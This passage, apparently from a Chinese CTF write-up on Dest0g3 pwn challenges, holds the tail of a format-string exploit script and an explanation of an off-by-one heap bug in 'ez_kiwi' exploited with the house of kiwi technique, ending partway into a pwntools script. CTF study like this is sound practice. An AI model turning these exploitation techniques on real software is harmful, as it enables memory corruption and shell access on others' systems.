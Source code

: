 ```python
sla("What about your love to Dest0g3?",pay)

pay = '%{}c%{}$hnxxxx'.format((tag+2)&0xffff,39)
# ru('xxx')
sla("What about your love to Dest0g3?",pay)
shellh = shell>>16
pay = '%{}c%{}$hhnxxxx'.format(shellh&0xff,12)
# ru('xxx')
sla("What about your love to Dest0g3?",pay)
# dbg()

# pay = '%{}c%{}$hhn'.format(shellh&0xff,13)

# sla("What about your love to Dest0g3?",pay)
p.interactive()
```

## emma

[(https://blog.e4l4.com/posts/IO利用总结/#emmabss段stderr233uaf](https://blog.e4l4.com/posts/IO利用总结/#emmabss段stderr233uaf)

## ez_kiwi

![image-20220712144137201](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220712144137201.png)

题目在菜单部分有一个clear函数，清除了malloc_hook/free_hook/__after_morecore_hook

![image-20220712144501595](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220712144501595.png)

也就是模拟了一个libc2.34的环境

漏洞点在，edit时存在一个offbyone，最大size为0x100

![image-20220712144922112](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220712144922112.png)

这里向下合并能造堆复用，任意地址申请了，就可以考虑house of kiwi，这里也体现了house of kiwi的特点，就2个任意地址写就能利用，也不用伪造整个结构体

这里不把sync改成OGG的原因主要是满足不了OGG的条件，寄存器环境比较复杂

这里也可以把sync改成system，然后写IO_stdderr为/bin/sh

改成setcontext可以有2个执行点，可以执行rop链

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
# context.log_level = 'debug'
# p=remote("node4.buuoj.cn","26246")
p = process("./ez_kiwi")

elf = ELF("./ez_kiwi")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
```